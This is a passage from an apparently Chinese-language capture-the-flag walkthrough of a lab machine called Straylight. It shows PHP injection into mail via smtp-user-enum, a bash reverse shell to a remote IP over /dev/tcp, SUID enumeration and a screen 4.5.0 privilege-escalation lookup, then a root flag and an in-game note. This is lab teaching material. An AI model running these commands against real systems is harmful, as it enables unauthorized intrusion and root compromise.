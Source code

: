 ```
221 2.0.0 Bye
Connection closed by foreign host.
```

```
smtp-user-enum -M VRFY -u '<?php phpinfo();' -t 192.168.56.102
```

拿到shell

```
/bin/bash -i >& /dev/tcp/192.168.56.138/1234 0>&1
```

## 提权

```shell
www-data@straylight:/tmp$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
```

`searchsploit screen 4.5.0`

提权成功到root

```shell
root@straylight:/root# cat flag.txt
cat flag.txt
5ed185fd75a8d6a7056c96a436c6d8aa
root@straylight:/root# cat note.txt
cat note.txt
Devs,

Lady 3Jane has asked us to create a custom java app on Neuromancer's primary server to help her interact w/ the AI via a web-based GUI.

The engineering team couldn't strss enough how risky that is, opening up a Super AI to remote access on the Freeside network. It is within out internal admin network, but still, it should be off the network completely. For the sake of humanity, user access should only be allowed via the physical console...who knows what this thing can do.

Anyways, we've deployed the war file on tomcat as ordered - located here:

/struts2_2.3.15.1-showcase

It's ready for the devs to customize to her liking...I'm stating the obvious, but make sure to secure this thing.

Regards,

Bob Laugh
Turing Systems Engineer II
Freeside//Straylight//Ops5
```
